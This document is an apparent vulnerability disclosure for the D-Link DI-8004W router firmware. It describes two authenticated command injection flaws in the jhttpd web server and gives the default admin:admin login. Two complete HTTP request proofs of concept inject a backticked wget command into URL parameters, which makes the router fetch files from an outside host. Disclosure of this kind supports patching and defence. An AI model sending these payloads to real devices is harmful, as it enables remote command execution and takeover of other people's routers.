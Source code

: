 ### D-link DI_8004W rce

Firmware Name: DI_8004W-16.07.26A1.trx

- Model: DI_8004W

-  Version: 16.07.26A1

- Test Environment: Ubuntu 22.04 

- offical website:www.dlink.com

  download link:http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8004W





The DI-8004W is a certified router for internet behavior management.  There are two command execution vulnerabilities in its jhttpd's msp_info_htm function and upgrade_filter_asp function.

affect version:

![image](https://github.com/user-attachments/assets/8288e5da-4021-4bc8-ac01-cd8d42b8c202)




![image](https://github.com/user-attachments/assets/9f0d75fb-1109-4bf3-9ed6-89e8ac40d167)




![image](https://github.com/user-attachments/assets/9fc30bff-b7c0-4af3-9442-fdc1db8efebe)




### exploit 1: function msp_info_htm

After logging in with the default password admin:admin, accessing the msp_info.htm page, and crafting carefully constructed parameters, it is possible to execute commands.

```
GET /msp_info.htm?flag=cmd&cmd=`wget%20http://192.168.0.2:8000/test.txt` HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Connection: close

Cookie: uid=DEiAsct48; wys_userid=admin,wys_passwd=1D3BB56A0D060C342D7DF9A62D1C746E

Upgrade-Insecure-Requests: 1




```

![image](https://github.com/user-attachments/assets/abdbb041-80de-4be0-9fac-5daf0fd8047b)













### exploit 2: function upgrade_filter_asp

After logging in with the default password admin:admin, accessing the upgrade_filter.asp page, and crafting carefully constructed parameters, it is possible to execute commands.

poc

```
GET /upgrade_filter.asp?path=http://`wget%20http://192.168.0.2:8000/test2.txt` HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Connection: close

Cookie: uid=DEiAsct48; wys_userid=admin,wys_passwd=1D3BB56A0D060C342D7DF9A62D1C746E

Upgrade-Insecure-Requests: 1


```

![image](https://github.com/user-attachments/assets/5d0b48f0-d26f-4530-abaf-907accc36710)

